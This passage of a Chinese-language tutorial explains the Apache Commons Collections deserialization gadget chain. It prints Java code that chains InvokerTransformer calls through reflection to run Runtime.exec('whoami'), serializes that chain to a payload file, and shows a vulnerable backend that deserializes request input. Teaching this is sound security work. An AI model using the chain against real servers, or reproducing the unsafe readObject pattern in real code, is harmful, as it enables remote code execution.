 看到了其中的`transform`方法会返回`iConstant`属性,而这个属性是在创建对象的时候赋值的，于是可以利用这三个`Gadgets`构造一个链

```java
public class ConstantGadgets {
    public static void main(String[] args) {
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(Runtime.getRuntime()),new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"whoami"})}
        );
        Process process = (Process) chainedTransformer.transform(null);
        Scanner scanner = new Scanner(process.getInputStream());
        String res = scanner.hasNext()?scanner.next():"";
        System.out.println(res);
    }
}
```

这样子后端代码，只需要调用`transform`方法就可以实现任意代码执行，比如下面这种的后端代码

```java
InputStream iii = request.getInputStream();
ObjectInputStream in = new ObjectInputStream(iii);
obj = in.readObject();
obj.transform(object);
in.close();
```

但是如果直接将上述的`ConstantGadgets`直接反序列化，会出现报错(因为`Runtime.getRuntime`会获得runtime实例，而runtime实例时不能被反序列化的)。那么需要通过反射的方法获取`runtime`实例,payload如下。

```java
public class PayloadDemo {
    public static void main(String[] args) {

        Transformer[] transformers = new Transformer[]{
//           Runtime.class.getMethod("getRuntime").invoke().exec("whoami")
//                Runtime.class.getMethod("getRuntime").invoke()
          // 获取 Runtime class 对象
            new ConstantTransformer(Runtime.class), // 更新参数为Runtime.class
            new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),// 调用getMethod 返回getRuntime方法
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),// 反射getRuntime返回Runtime实例
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"whoami"})// 利用exec 执行任意代码
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        try(
                FileOutputStream fos = new FileOutputStream("payload.txt");
                ObjectOutputStream oos = new ObjectOutputStream(fos);
            ){
            oos.writeObject(chainedTransformer);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
